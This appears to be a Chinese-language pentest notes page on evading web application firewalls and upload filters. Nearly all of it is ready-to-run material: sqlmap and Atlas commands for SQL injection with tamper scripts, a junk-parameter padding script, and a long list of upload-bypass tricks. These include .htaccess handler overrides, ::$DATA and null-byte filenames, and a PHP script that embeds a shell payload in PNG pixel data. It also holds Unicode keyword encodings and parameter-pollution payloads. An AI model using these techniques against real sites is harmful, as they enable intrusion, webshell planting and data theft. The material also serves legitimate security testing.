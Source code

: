 #### SQL注入分块传输
	https://github.com/c0ny1/chunked-coding-converter
![image](/assets/Pentest_Note/master/img/25.png)
![image](/assets/Pentest_Note/master/img/26.png)

	跑注入点被拦截
![image](/assets/Pentest_Note/master/img/27.png)

	使用分块传输，右键选择
![image](/assets/Pentest_Note/master/img/28.png)
![image](/assets/Pentest_Note/master/img/30.png)

	使用SQLMAP跑注入
![image](/assets/Pentest_Note/master/img/31.png)
![image](/assets/Pentest_Note/master/img/32.png)

	>python sqlmap.py -r 1.txt --batch --proxy=http://127.0.0.1:8080 --dbs
![image](/assets/Pentest_Note/master/img/33.png)
#### 自动提供可用的tamper
	https://github.com/m4ll0k/Atlas
	GET类型的注入
	python atlas.py --url http://site.com/index/id/%%10%% --payload="-1234 AND 4321=4321-- AAAA" --random-agent -v
	POST类型的注入
	python atlas.py --url http://site.com/index/id/ -m POST -D 'test=%%10%%' --payload="-1234 AND 4321=4321-- AAAA" --random-agent -v
	请求头注入
	python atlas.py --url http://site.com/index/id/ -H 'User-Agent: mozilla/5.0%%inject%%' -H 'X-header: test' --payload="-1234 AND 4321=4321-- AAAA" --random-agent -v
	组合tamper
	python atlas.py --url http://site.com/index/id/%%10%% --payload="-1234 AND 4321=4321-- AAAA" --concat "equaltolike,htmlencode" --random-agent -v
	列出tamper
	python atlas.py -g
	例子
	注入
	python sqlmap.py -u 'http://site.com/index.php?id=Price_ASC' --dbs --random-agent -v 3
![image](/assets/Pentest_Note/master/img/658.png)

	可以看到被拦截了
	查找能绕过的tamper
	python atlas.py --url 'http://site.com/index.php?id=Price_ASC' --payload="') AND 8716=4837 AND ('yajr'='yajr" --random-agent -v
![image](/assets/Pentest_Note/master/img/659.png)

	根据返回码200得到一个可绕过waf的tamper
	versionedkeywords这个tamper
	继续注入
	python sqlmap.py -u 'http://site.com/index.php?id=Price_ASC' --dbs --random-agent -v 3 --tamper=versionedkeywords
	根据状态码来判断有时会有点鸡肋，但是也能用用，随机发挥吧。
#### 垃圾数据
	#coding=utf-8
	import random,string
	from urllib import parse
	# code by yzddMr6
	varname_min = 5
	varname_max = 15
	data_min = 20
	data_max = 25
	num_min = 50
	num_max = 100
	def randstr(length):
		str_list = [random.choice(string.ascii_letters) for i in range(length)]
		random_str = ''.join(str_list)
		return random_str
	def main():
		data={}
		for i in range(num_min,num_max):
			data[randstr(random.randint(varname_min,varname_max))]=randstr(random.randint(data_min,data_max))
		print('&'+parse.urlencode(data)+'&')
	main()
	放到要注入的字段前后
#### 上传bypass
    	图片文件头
	PNG 的文件头为十六进制的 89 50 4E 47 0D 0A 1A 0A
	GIF 为 47 49 46 38 37 61
	JPG 为 FF D8 FF E0
    	添加图片头或合并图片包含
    	后缀大小写
    	文件名前缀加[0x09]
    	上传.htaccess
		SetHandler application/x-httpd-php
    	二次渲染
		GIF
		找好一个大一点的GIF，尾部使用c32插入shell，上传，下载回来，使用burp的comparer功能找出整个文件没有被渲染的位置，插入shell再上传
		JPG
		使用脚本直接生成
		https://github.com/BlackFan/jpg_payload
		PNG
		使用脚本直接生成
		先取消php.ini注释;extension=php_gd2.dll
```php
<?php
$p = array(0xa3, 0x9f, 0x67, 0xf7, 0x0e, 0x93, 0x1b, 0x23,
0xbe, 0x2c, 0x8a, 0xd0, 0x80, 0xf9, 0xe1, 0xae,
0x22, 0xf6, 0xd9, 0x43, 0x5d, 0xfb, 0xae, 0xcc,
0x5a, 0x01, 0xdc, 0x5a, 0x01, 0xdc, 0xa3, 0x9f,
0x67, 0xa5, 0xbe, 0x5f, 0x76, 0x74, 0x5a, 0x4c,
0xa1, 0x3f, 0x7a, 0xbf, 0x30, 0x6b, 0x88, 0x2d,
0x60, 0x65, 0x7d, 0x52, 0x9d, 0xad, 0x88, 0xa1,
0x66, 0x44, 0x50, 0x33);
$img = imagecreatetruecolor(32, 32);
for ($y = 0; $y < sizeof($p); $y += 3) {
	$r = $p[$y];
	$g = $p[$y+1];
	$b = $p[$y+2];
	$color = imagecolorallocate($img, $r, $g, $b);
	imagesetpixel($img, round($y / 3), 0, $color);
}
imagepng($img,'./1.png');
?>
```
    	上传php3,php4,phtml等
    	文件名后加::$DATA
	ConTent-Disposition: form-data; name="filepath"; filename="1.asp::$DATA"
	ConTent-Disposition: form-data; name="filepath"; filename="1.asp::$DATA\0x00\1.asp0x00.jpg"
    	asp . (空格+.)
    	php. .(点+空格+点)
    	双写phphpp
    	00截断
	Get参数00截断直接添加%00
	POST参数00截断修改hex为00
    	修改一些固定的参数
    	文件名去掉双引号
    	加一个filename1的参数
    	form变量改成f+orm
    	去掉form-data
    	在Content-Disposition或form-data;后添加多个空格
    	引号回车
	ConTent-Disposition: form-data; name="filepath"; filename="backlion.asp
	"
    	Content-Type和ConTent-Disposition调换位置
    	文件名前缀加空格
	filename=    "1.asp"
    	name前加空格
	Content-Disposition: form-data;      name="uploaded"; filename="1.asp"
    	form-data的前后加上+
	Content-Disposition: +form-data; name="filepath"; filename="1.asp"
    	* ASP+IIS
	s%elect>select
	s%u0065lect>select  
	s%u00f0lect>select
	s%u0045lect = s%u0065lect = %u00f0lect
	u -->%u0055 --> %u0075
	n -->%u004e --> %u006e
	i -->%u0049 --> %u0069
	o -->%u004f --> %u006f -->%u00ba
	s -->%u0053 --> %u0073
	l -->%u004c --> %u006c
	e -->%u0045 --> %u0065-->%u00f0
	c -->%u0043 --> %u0063
	t -->%u0054 -->%u0074 -->%u00de -->%u00fe
	f -->%u0046 -->%u0066
	r -->%u0052 -->%u0072
	m -->%u004d -->%u006d
    	Asp+iis&aspx+iis
	s%u006c%u0006ect>select
    	* apache
	TEST /sql.php?id=1 HTTP/1.1
    	* 大小写/关键字
	UniOn SeLECT
	Mid()substring() ? substr()
	Hex()?ascii()
	sleep() =benchmark()
	concat_ws()=group_concat()
    	双重url编码
    	变换请求方式
    	HPP参数污染
	id=1&id=2&id=3
	得到的结果：Asp.net + iis：id=1,2,3 
	Asp+iis：id=1,2,3 
	Php+apache：id=3
	MSSQL:
	GET+POST: 
	GET:http://192.168.125.140/test/sql.aspx?id=1 union/*
	post:  id=2*/select null,null,null
	无逗号形式：
	?id=1 union select 1&id=2&id=3&id=4 from admin--（）  
	利用逗号：
	?a=1+union/*&b=*/select+1,pass/*&c=*/from+users--
	无效参数形式：
	?a=/*&sql=xxx&b=*/  a,b为无效参数
	溢出形式：?id=1/*&id=*//*&id=*//*......&id=*//*&id=*/ union  select null,system_user,null from INFORMATION_SCHEMA.schemata
	MYSQL：
	?id=1&id=1&id=1&id=1&id=1&id=1&id=1&id=….. &id=1 union select 1,2 from admin